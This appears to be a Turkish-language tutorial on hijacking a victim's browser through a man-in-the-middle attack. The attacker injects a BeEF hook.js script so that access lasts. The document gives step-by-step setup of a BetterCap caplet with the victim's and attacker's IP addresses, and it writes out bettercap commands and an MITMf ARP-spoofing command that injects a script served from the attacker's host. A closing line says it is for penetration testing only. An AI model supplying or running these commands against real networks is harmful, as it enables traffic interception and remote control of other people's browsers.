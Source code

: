 **📌 Temel Mantık:** 
Kurbanın tarayıcısına zararlı JavaScript kodu enjekte ederek, tarayıcı kapatılsa bile **kalıcı erişim** sağlamak.

*   🎯 **Problem:** Basit bir saldırıda, kurban tarayıcıyı kapattığında erişim kaybolur.
*   💡 **Çözüm:** Man-in-the-Middle (MitM) saldırısı ile zararlı JS kodu enjekte edilirse, kurbanın ziyaret ettiği tüm sitelerden bağımsız olarak **kalıcı bir arka kapı** oluşturulur.

---

### **🛠️ Yöntem 1: Beef Framework + BetterCap**

**🔧 Kullanılan Araç:** `beefcustom` caplet'i (BetterCap eklentisi).

**📋 Adımlar:**

1.  **📂 Caplet'i Yükle:**
    *   `beefcustom` klasörünü `/usr/share/bettercap/caplets/` yoluna kopyala.

2.  **⚙️ Dosyaları Yapılandır:**
    *   **`beefcustom.cap`** dosyasını aç ve `target.ip` kısmına **kurbanın IP adresini** yaz.
    *   **`beefcustom.js`** dosyasını aç. Son satırdaki `script` kodunun `src` kısmına **kendi IP adresini** (saldırgan makinenin IP'si) yaz.

3.  **🚀 Saldırıyı Başlat:**
    ```bash
    # BetterCap'ı başlat
    bettercap -iface [interface_adi]

    # Caplet'i çalıştır
    bettercap -iface [interface_adi] -caplet /usr/share/bettercap/caplets/beefcustom/beefcustom.cap
    ```
    *   ✅ **Sonuç:** Kurban herhangi bir tarayıcı kullandığı anda, Beef Framework'e bağlanır ve **kalıcı erişim** sağlanır.

---

### **🔄 Yöntem 2: MITMf Tool (Alternatif)**

**🔧 Kullanılan Araç:** `python mitmf.py` aracı.

**📋 Komut:**
```bash
python mitmf.py --arp --spoof --gateway [modem_ip] --target [kurban_ip] -i [interface_adi] --inject --js-url http://[saldırgan_ip]:3000/hook.js
```

*   ⚠️ **Dikkat:** Bu yöntem için Beef Framework'ün `3000` portunda çalışıyor olması gerekir. `hook.js` dosyasını sunmak için kullanılır.

---

### **🎯 Özet & Hatırlatmalar**

| Durum | Erişim Türü | Araç |
| :--- | :--- | :--- |
| **❌ Basit Saldırı** | Geçici (Tarayıcı kapanınca biter) | - |
| **✅ JS Enjeksiyonu** | **Kalıcı** (Tarayıcıdan bağımsız) | BetterCap + Beef |

*   🔄 **Beef Framework:** Kurbanın tarayıcısını uzaktan kontrol etmeye yarar.
*   ⚠️ **Etik Uyarı:** Bu bilgiler sadece **sızma testi** ve **savunma** amaçlı öğrenilmektedir. İzinsiz kullanım **yasa dışıdır**.

---